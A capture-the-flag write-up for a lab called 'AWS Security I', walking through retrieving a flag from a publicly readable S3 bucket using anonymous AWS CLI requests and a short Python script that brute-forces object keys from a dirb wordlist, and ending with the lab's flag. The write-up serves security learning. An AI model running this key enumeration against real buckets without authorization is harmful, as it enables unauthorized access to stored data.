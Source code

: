 # AWS Security I

## Challenge Description

The bucket policy on 'public' bucket allows an anonymous user to read all objects stored in the bucket.

**Objective:**  Interact with the bucket 'public' on the exposed S3 endpoint and retrieve the flag!

## Instructions

* Once you start the lab, you will have access to a Ubuntu instance.
* Your Ubuntu Instance has an interface with IP address 192.X.Y.2. Run "ip addr" to know the values of X and Y.
* The exposed S3 endpoint should be running on port 9000 on the machine located at the IP address 192.X.Y.3.
* Use /usr/share/dirb/wordlists/small.txt dictionary.

---

## Solution

As per the instructions, run `ip addr` to get our instance's IP:

```text
root@attackdefense:~# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
1126: eth0@if1127: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:0a:01:00:09 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.1.0.9/16 brd 10.1.255.255 scope global eth0
       valid_lft forever preferred_lft forever
1129: eth1@if1130: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:c0:ec:87:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 192.236.135.2/24 brd 192.236.135.255 scope global eth1
       valid_lft forever preferred_lft forever
```

In my case, the endpoint address was `192.236.135.3:9000`.

Searching online, we can find the [documentation](https://awscli.amazonaws.com/v2/documentation/api/latest/index.html) for AWS CLI.

Here, we find that we can specify the endpoint manually with `--endpoint-url`. Since we are not provided credentials, we have to send the request anonymously with `--no-sign-request`.

> **Note:** When I was doing the challenge, I typed in `--endpoint` instead of `--endpoint-url` for some reason. It still ended up working though. ¯\\\_(ツ)_/¯
>
> The commands in this write-up are what I used, so that's why those use `--endpoint`.

We also find that we can use the command `s3api` to interact with the bucket. (I tried `s3` first but couldn't get it working, but I think it's possible to use that as well.)

AWS S3 buckets operate on a key-value basis. We can use the subcommand `get-object` to retrieve an object, given a particular key, using a command like this:

```text
aws --endpoint http://192.236.135.3:9000 --no-sign-request s3api get-object --bucket public --key test ./flag
```

This gets the object in the `public` bucket stored under the key `test`, and stores it to `./flag`.

However, running the above command gives us an error, since we do not know the actual key for the flag:

```text
An error occurred (NoSuchKey) when calling the GetObject operation: The specified key does not exist.
```

To find the key, we can use the provided wordlist `/usr/share/dirb/wordlists/small.txt`. I wrote a Python script to get the flag:

```python
import os
f = open('/usr/share/dirb/wordlists/small.txt', 'r')
wordList = f.readlines()

for line in wordList:
    line = line.strip('\n')
    os.system(f'aws --endpoint http://192.236.135.3:9000 --no-sign-request s3api get-object --bucket public --key {line} {os.getcwd()}/flag')
```

After running the above script, we can read the output file, `flag`, to get the flag.

```text
root@attackdefense:~# cat flag
Flag: 155a5314e36f03ec70eadb3c7dd91049
```

### Flag

```text
155a5314e36f03ec70eadb3c7dd91049
```
